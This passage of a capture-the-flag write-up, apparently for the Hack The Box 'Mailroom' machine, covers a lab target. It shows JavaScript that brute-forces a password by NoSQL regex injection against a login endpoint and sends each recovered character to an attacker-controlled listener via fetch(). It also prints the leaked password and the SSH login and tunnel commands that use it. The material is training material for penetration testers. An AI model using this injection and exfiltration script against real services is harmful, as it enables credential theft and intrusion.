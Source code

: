     ```
    10.129.229.1 - - [18/Apr/2023 11:50:51] "GET /brute_user.js HTTP/1.1" 200 -
    10.129.229.1 - - [18/Apr/2023 11:50:52] "GET /?name=ristan HTTP/1.1" 200 -
    10.129.229.1 - - [18/Apr/2023 11:50:52] "GET /?name=.ristan HTTP/1.1" 200 -
    10.129.229.1 - - [18/Apr/2023 11:50:53] "GET /?name=tristan HTTP/1.1" 200 -
    ```
    

User: tristan

Email: tristan@mailroom.htb

### Brute Force Password

Same with the password. Add the strings from the output to `cal(chars, "")`

```jsx
async function callAuth(pass) {
    var http=new XMLHttpRequest();
    http.open('POST', 'http://staff-review-panel.mailroom.htb/auth.php', true);
    http.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    http.onload = function () {
        if (/"success":true/.test(this.responseText)) {
            notify(pass);
            cal('0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!\"#%\'()+:;-_~', pass);
        }
    };
    http.send("email=tristan@mailroom.htb&password[$regex]=^"+pass);
}
function notify(pass) {
    fetch("http://10.10.14.56:81/pass?" + pass);
}
//var chars = '!+,-.0123456789:;<=>ABCDEFGHIJKLMNOPQRSTUVWXYZ_abcdefghijklmnopqrstuvwxyz{|}~'
var chars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!\"#%\'()+:;-_~'
function cal(chars, pass) {
    for (var i = 0; i < chars.length; i++) {
        callAuth(pass+chars[i])
    }
}
cal(chars, "")
```

PW: 69trisRulez!

We can now login via SSH.

- `sshpass -p 69trisRulez! ssh tristan@mailroom.htb`

uid=1000(tristan) gid=1000(tristan) groups=1000(tristan)

## Lateral Movement - www-data

We can now open a tunnel to use the local domain `staff-review-panel.mailroom.htb`

- `sshpass -p 69trisRulez! ssh tristan@mailroom.htb -L 81:127.0.0.1:80`
